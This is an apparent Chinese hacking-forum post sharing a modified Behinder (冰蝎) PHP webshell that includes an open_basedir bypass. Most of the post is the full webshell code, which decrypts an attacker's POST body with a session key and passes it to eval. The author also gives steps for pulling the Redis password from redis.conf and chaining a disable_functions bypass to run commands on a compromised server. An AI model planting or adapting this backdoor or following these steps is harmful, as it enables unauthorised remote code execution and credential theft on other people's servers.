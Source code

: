 ## 冰蝎 bypass open_basedir 的马

### 作者：https://www.t00ls.net/space.php?uid=7785

## 内容

今天看了下：https://www.t00ls.net/thread-56298-1-1.html
突然想到为什么不在把 bypass open_basedir 加到马里呢。。。
然后。就把冰蝎的马加了一个bypass。。。马还是原马。
测试了一下是ok的。。。

要是服务器上有redis 直接 /www/server/redis/redis.conf 搜索 requirepass 找密码

然后 用 https://www.t00ls.net/thread-56217-1-1.html bypass disable_functions 执行命令。

然后一条龙。。。嘿嘿嘿。

```php
<?php
@error_reporting(0);
session_start();

function bypass_open_basedir(){
        if(!file_exists('bypass_open_basedir')){
                mkdir('bypass_open_basedir');
        }
        chdir('bypass_open_basedir');
        @ini_set('open_basedir','..');
        @$_Ei34Ww_sQDfq_FILENAME = dirname($_SERVER['SCRIPT_FILENAME']);
        @$_Ei34Ww_sQDfq_path = str_replace("\\",'/',$_Ei34Ww_sQDfq_FILENAME);
        @$_Ei34Ww_sQDfq_num = substr_count($_Ei34Ww_sQDfq_path,'/') + 1;
        $_Ei34Ww_sQDfq_i = 0;
        while($_Ei34Ww_sQDfq_i < $_Ei34Ww_sQDfq_num){
                @chdir('..');
                $_Ei34Ww_sQDfq_i++;
        }
        @ini_set('open_basedir','/');
        @rmdir($_Ei34Ww_sQDfq_FILENAME.'/'.'bypass_open_basedir');
}
bypass_open_basedir();

if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else if (!empty($_SESSION['k']))
{
    $key=$_SESSION['k'];
        $post=file_get_contents("php://input").'';
        if(!extension_loaded('openssl'))
        {
                $t="base64_"."decode";
                $post=$t($post."");
                
                for($i=0;$i<strlen($post);$i++) {
                             $post[$i] = $post[$i]^$key[$i+1&15]; 
                            }
        }
        else
        {
                $post=openssl_decrypt($post, "AES128", $key);
        }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
    @eval($params);
}
?>

```

### 原帖：https://www.t00ls.net/thread-56301-1-1.html 

### 参考：https://www.t00ls.net/thread-56337-1-1.html

### 欢迎大家前往土司投稿！
